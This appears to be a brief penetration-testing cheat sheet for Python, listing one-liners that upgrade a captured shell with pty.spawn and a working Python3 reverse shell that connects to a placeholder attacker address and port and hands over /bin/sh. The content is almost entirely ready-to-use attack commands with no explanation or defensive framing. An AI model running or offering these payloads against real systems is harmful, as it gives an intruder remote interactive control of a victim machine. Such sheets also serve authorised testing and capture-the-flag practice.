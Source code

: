 # python
## python2
### upgrade shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## python3
### upgrade shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
### one line reverse shell
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER-IP",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```